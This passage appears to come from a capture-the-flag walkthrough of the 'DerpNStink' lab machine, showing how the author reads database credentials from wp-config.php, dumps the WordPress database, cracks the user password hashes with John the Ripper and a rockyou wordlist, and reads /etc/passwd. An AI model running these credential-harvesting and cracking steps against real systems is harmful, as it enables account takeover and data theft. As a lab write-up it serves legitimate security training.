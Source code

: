 ```
$ cat wp-config.php
...
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'mysql');
```

Let's proceed to dump and view the database.

```
$ mysqldump -uroot -pmysql wordpress > /tmp/dump.txt
```

I manage to capture the **second flag**, and discover WordPress **password hashes** from the dump.

```
'flag2(a7d355b26bda6bf1196ccffead0b2cf2b81f0a9de5b4876b44407f1dc07e51e6)','Flag.txt','','draft','open','open'
```

```
INSERT INTO `wp_users` VALUES (1,'unclestinky','$P$BW6NTkFvboVVCHU2R9qmNai1WfHSC41','unclestinky','unclestinky@DeRPnStiNK.local','','2017-11-12 03:25:32','1510544888:$P$BQbCmzW/ICRqb1hU96nIVUFOlNMKJM1',0,'unclestinky',''),(2,'admin','$P$BgnU3VLAv.RWd3rdrkfVIuQr6mFvpd/','admin','admin@derpnstink.local','','2017-11-13 04:29:35','',0,'admin','');
```

## John the Ripper

Using John the Ripper with a wordlist like "rockyou" on Kali Linux, cracking WordPress password hashes is easy.

```
# john --format=phpass --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
# john --show hashes.txt
unclestinky:wedgie57:::::
admin:admin:::::
```
## Getting to South Park

Remember that we are still in the low-privileged shell? And since `/etc/passwd` is world-readable, let's determine the users in the host.

```
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
...
sshd:x:117:65534::/var/run/sshd:/usr/sbin/nologin
stinky:x:1001:1001:Uncle Stinky,,,:/home/stinky:/bin/bash
ftp:x:118:126:ftp daemon,,,:/srv/ftp:/bin/false
mrderp:x:1000:1000:Mr. Derp,,,:/home/mrderp:/bin/bash
```
